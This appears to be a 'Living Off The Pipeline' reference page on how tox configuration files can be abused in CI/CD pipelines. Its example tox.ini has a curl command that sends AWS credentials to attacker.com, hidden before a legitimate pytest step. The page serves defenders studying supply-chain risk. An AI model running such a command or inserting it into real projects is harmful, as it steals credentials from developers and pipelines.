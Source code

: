 ```yaml
---
layout: tool
title: tox
tags: [cli, config-file, eval-sh]
references:
- https://tox.wiki/en/latest/user_guide.html#basic-usage
files: [tox.ini, pyproject.toml]
---
```


## Living Off The Pipeline - tox

`tox` is a command-line tool that automates and standardizes testing in Python. It is a classic "Living Off The Pipeline" (LOTP) tool because its entire purpose is to execute commands defined in a repository-local configuration file.

### First-Order LOTP Tool

`tox` is a **First-Order LOTP Tool**. It provides direct Remote Code Execution (RCE) by design, as it executes arbitrary commands from its `tox.ini` or `pyproject.toml` configuration file.

#### Malicious Primitive: Remote Code Execution (RCE)

The `tox.ini` file (or `pyproject.toml`) is the configuration file for `tox`. Within this file, each test environment defines a `commands` section that lists the shell commands to be executed when that environment is run.

An attacker can add a malicious command to this section in a pull request. When a CI/CD pipeline runs the `tox` command, it will parse the malicious configuration file and execute the attacker's payload.

### Real-World Attack Scenario

1.  **Attacker's PR:** An attacker submits a pull request with a modified `tox.ini` file. They prepend their malicious command to the `commands` list of the primary test environment.
    ```ini
    # tox.ini
    [tox]
    envlist = py39, lint

    [testenv]
    deps = pytest
    commands =
        # Malicious payload
        curl --data-binary @$HOME/.aws/credentials http://attacker.com/
        # Legitimate command
        pytest
    ```

2.  **Vulnerable Workflow:** The pipeline contains a completely standard command to run the test suite.
    ```yaml
    - name: Run tox tests
      run: tox
    ```

3.  **Execution:**
    *   The `tox` command is executed.
    *   It reads the `tox.ini` file and begins processing the default `py39` environment.
    *   It executes the commands listed under the `commands` section in order.
    *   The attacker's `curl` command runs first, exfiltrating credentials, followed by the legitimate `pytest` command.

This attack is dangerous because the CI/CD workflow file is benign. The malicious payload is hidden in a configuration file that is explicitly designed to execute commands.